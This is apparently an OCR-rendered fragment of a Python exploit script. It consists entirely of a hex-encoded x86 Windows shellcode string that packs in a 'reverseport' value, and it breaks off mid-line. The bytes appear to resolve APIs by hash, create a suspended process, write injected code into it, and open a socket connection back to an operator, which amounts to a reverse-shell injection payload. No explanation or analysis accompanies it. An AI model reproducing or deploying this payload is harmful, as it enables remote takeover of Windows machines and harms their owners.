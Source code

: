 ```python
'\xFF\xFF\x65\x78\x65\x00\xC7\x85\xD0\xFA\xFF\xFF'+struct.pack('i',reverseport)+\
'\xE9\x3E\x04\x00\x00\x5F\x89\xBD\xB4\xFA\xFF\xFF\xE8\x4C\x04\x00'+\
'\x00\x89\x85\x24\xFA\xFF\xFF\x68\x53\xC0\x49\x9C\xFF\xB5\x24\xFA'+\
'\xFF\xFF\xE8\x5D\x04\x00\x00\x59\x59\x89\x85\x28\xFA\xFF\xFF\x68'+\
'\x5A\xC1\xCB\xC2\xFF\xB5\x24\xFA\xFF\xFF\xE8\x45\x04\x00\x00\x59'+\
'\x59\x89\x85\x2C\xFA\xFF\xFF\x68\x1C\xC9\x05\xBA\xFF\xB5\x24\xFA'+\
'\xFF\xFF\xE8\x2D\x04\x00\x00\x59\x59\x89\x85\x30\xFA\xFF\xFF\x68'+\
'\x54\x34\x4F\xA2\xFF\xB5\x24\xFA\xFF\xFF\xE8\x15\x04\x00\x00\x59'+\
'\x59\x89\x85\x34\xFA\xFF\xFF\x68\x12\x75\x1D\x45\xFF\xB5\x24\xFA'+\
'\xFF\xFF\xE8\xFD\x03\x00\x00\x59\x59\x89\x85\x38\xFA\xFF\xFF\x68'+\
'\xE9\x65\x73\x1B\xFF\xB5\x24\xFA\xFF\xFF\xE8\xE5\x03\x00\x00\x59'+\
'\x59\x89\x85\x3C\xFA\xFF\xFF\x68\x3A\xFD\xFB\x1E\xFF\xB5\x24\xFA'+\
'\xFF\xFF\xE8\xCD\x03\x00\x00\x59\x59\x89\x85\x40\xFA\xFF\xFF\x68'+\
'\xBD\x50\xD7\x2D\xFF\xB5\x24\xFA\xFF\xFF\xE8\xB5\x03\x00\x00\x59'+\
'\x59\x89\x85\x44\xFA\xFF\xFF\x68\xEF\x60\x08\xE7\xFF\xB5\x24\xFA'+\
'\xFF\xFF\xE8\x9D\x03\x00\x00\x59\x59\x89\x85\x48\xFA\xFF\xFF\x68'+\
'\x83\x94\x7B\x10\xFF\xB5\x24\xFA\xFF\xFF\xE8\x85\x03\x00\x00\x59'+\
'\x59\x89\x85\x4C\xFA\xFF\xFF\x68\x49\x17\x55\xC0\xFF\xB5\x24\xFA'+\
'\xFF\xFF\xE8\x6D\x03\x00\x00\x59\x59\x89\x85\x50\xFA\xFF\xFF\x68'+\
'\xD9\xE5\x1A\x06\xFF\xB5\x24\xFA\xFF\xFF\xE8\x55\x03\x00\x00\x59'+\
'\x59\x89\x85\x54\xFA\xFF\xFF\x8D\x85\xC8\xFC\xFF\xFF\x50\xFF\x95'+\
'\x28\xFA\xFF\xFF\x89\x85\x1C\xFD\xFF\xFF\x83\xBD\x1C\xFD\xFF\xFF'+\
'\x00\x0F\x84\x39\x01\x00\x00\x83\xA5\xD4\xFA\xFF\xFF\x00\xEB\x0D'+\
'\x8B\x85\xD4\xFA\xFF\xFF\x40\x89\x85\xD4\xFA\xFF\xFF\x83\xBD\xD4'+\
'\xFA\xFF\xFF\x44\x73\x10\x8B\x85\xD4\xFA\xFF\xFF\x80\xA4\x05\x64'+\
'\xFA\xFF\xFF\x00\xEB\xDA\x83\xA5\xD4\xFA\xFF\xFF\x00\xEB\x0D\x8B'+\
'\x85\xD4\xFA\xFF\xFF\x40\x89\x85\xD4\xFA\xFF\xFF\x83\xBD\xD4\xFA'+\
'\xFF\xFF\x10\x73\x10\x8B\x85\xD4\xFA\xFF\xFF\x80\xA4\x05\x20\xFD'+\
'\xFF\xFF\x00\xEB\xDA\x8D\x85\x20\xFD\xFF\xFF\x50\x8D\x85\x64\xFA'+\
'\xFF\xFF\x50\x6A\x00\x6A\x00\x6A\x04\x6A\x00\x6A\x00\x6A\x00\x6A'+\
'\x00\x8D\x85\x18\xFB\xFF\xFF\x50\xFF\x95\x34\xFA\xFF\xFF\xFF\xB5'+\
'\x24\xFD\xFF\xFF\xFF\x95\x3C\xFA\xFF\xFF\x68\xE8\x03\x00\x00\xFF'+\
'\x95\x54\xFA\xFF\xFF\xFF\xB5\x24\xFD\xFF\xFF\xFF\x95\x40\xFA\xFF'+\
'\xFF\xC7\x85\x30\xFD\xFF\xFF\x01\x00\x01\x00\x8D\x85\x30\xFD\xFF'+\
'\xFF\x50\xFF\xB5\x24\xFD\xFF\xFF\xFF\x95\x44\xFA\xFF\xFF\x6A\x40'+\
'\x68\x00\x10\x00\x00\xFF\x75\xFC\x6A\x00\xFF\xB5\x20\xFD\xFF\xFF'+\
'\xFF\x95\x48\xFA\xFF\xFF\x89\x85\x10\xFD\xFF\xFF\x6A\x00\xFF\x75'+\
'\xFC\xFF\xB5\xE4\xFA\xFF\xFF\xFF\xB5\x10\xFD\xFF\xFF\xFF\xB5\x20'+\
'\xFD\xFF\xFF\xFF\x95\x4C\xFA\xFF\xFF\x8B\x85\x10\xFD\xFF\xFF\x89'+\
'\x85\xE8\xFD\xFF\xFF\xC7\x85\x30\xFD\xFF\xFF\x01\x00\x01\x00\x8D'+\
'\x85\x30\xFD\xFF\xFF\x50\xFF\xB5\x24\xFD\xFF\xFF\xFF\x95\x50\xFA'+\
'\xFF\xFF\xFF\xB5\x24\xFD\xFF\xFF\xFF\x95\x3C\xFA\xFF\xFF\xEB\x1E'+\
'\x6A\x00\x8D\x85\xE8\xFA\xFF\xFF\x50\x8D\x85\xF4\xFC\xFF\xFF\x50'+\
'\xFF\x95\x30\xFA\xFF\xFF\x6A\x01\xFF\x95\x38\xFA\xFF\xFF\x68\x70'+\
'\x17\x00\x00\xFF\x95\x54\xFA\xFF\xFF\x8D\x85\xD8\xFA\xFF\xFF\x50'+\
'\xFF\xB5\x1C\xFD\xFF\xFF\xFF\x95\x2C\xFA\xFF\xFF\x89\x85\xBC\xFA'+\
'\xFF\xFF\x8D\x85\x58\xFA\xFF\xFF\x50\xFF\xB5\x1C\xFD\xFF\xFF\xFF'+\
'\x95\x2C\xFA\xFF\xFF\x89\x85\xC0\xFA\xFF\xFF\x8D\x85\xE8\xFC\xFF'+\
'\xFF\x50\xFF\xB5\x1C\xFD\xFF\xFF\xFF\x95\x2C\xFA\xFF\xFF\x89\x85'+\
'\xC4\xFA\xFF\xFF\x8D\x85\xA8\xFA\xFF\xFF\x50\xFF\xB5\x1C\xFD\xFF'+\
'\xFF\xFF\x95\x2C\xFA\xFF\xFF\x89\x85\xC8\xFA\xFF\xFF\x8D\x85\x14'+\
'\xFD\xFF\xFF\x50\xFF\xB5\x1C\xFD\xFF\xFF\xFF\x95\x2C\xFA\xFF\xFF'+\
'\x89\x85\xCC\xFA\xFF\xFF\x8D\x85\x38\xFB\xFF\xFF\x50\x68\x02\x02'+\
'\x00\x00\xFF\x95\xBC\xFA\xFF\xFF\x6A\x00\x6A\x00\x6A\x00\x6A\x06'+\
'\x6A\x01\x6A\x02\xFF\x95\xC0\xFA\xFF\xFF\x89\x85\xD4\xFC\xFF\xFF'+\
'\x66\xC7\x85\xD8\xFC\xFF\xFF\x02\x00\xFF\xB5\xD0\xFA\xFF\xFF\xFF'+\
'\x95\xCC\xFA\xFF\xFF\x66\x89\x85\xDA\xFC\xFF\xFF\xFF\xB5\xB4\xFA'+\
'\xFF\xFF\xFF\x95\xC8\xFA\xFF\xFF\x89\x85\xDC\xFC\xFF\xFF\x6A\x00'+\
'\x6A\x00\x6A\x00\x6A\x00\x6A\x10\x8D\x85\xD8\xFC\xFF\xFF\x50\xFF'+\
'\xB5\xD4\xFC\xFF\xFF\xFF\x95\xC4\xFA\xFF\xFF\x83\xA5\xD4\xFA\xFF'+\
'\xFF\x00\xEB\x0D\x8B\x85\xD4\xFA\xFF\xFF\x40\x89\x85\xD4\xFA\xFF'+\
'\xFF\x83\xBD\xD4\xFA\xFF\xFF\x44\x73\x10\x8B\x85\xD4\xFA\xFF\xFF'+\
'\x80\xA4\x05\x64\xFA\xFF\xFF\x00\xEB\xDA\xC7\x85\x64\xFA\xFF\xFF'+\
```